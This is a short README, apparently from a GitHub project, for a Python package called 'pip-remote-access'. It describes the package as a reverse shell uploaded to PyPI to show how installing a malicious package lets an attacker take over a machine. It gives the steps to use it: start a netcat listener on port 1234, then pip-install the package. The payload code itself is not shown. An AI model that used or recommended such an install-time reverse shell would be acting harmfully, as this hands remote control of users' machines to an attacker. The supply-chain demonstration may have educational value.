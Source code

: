 # Explanation:

This is Simple Python Reverse Shell module.
It is show how one can write a exploit and upload a malicious code to pyorg.
If installed how the attacker can get over your machine.

1. First Listen on 1234 port with netcat
`nc -lvp 1234`

2. Install the package 
`pip install pip-remote-access`

#### Demo :
<img src="https://media4.giphy.com/media/GlXNuhLEjIUTAfIVpC/giphy.gif?cid=ecf05e47v0qmxkcev5dyurr35agj868z9j9nt3oglw2ed0k3&rid=giphy.gif&ct=s" width="100" height="50"/>
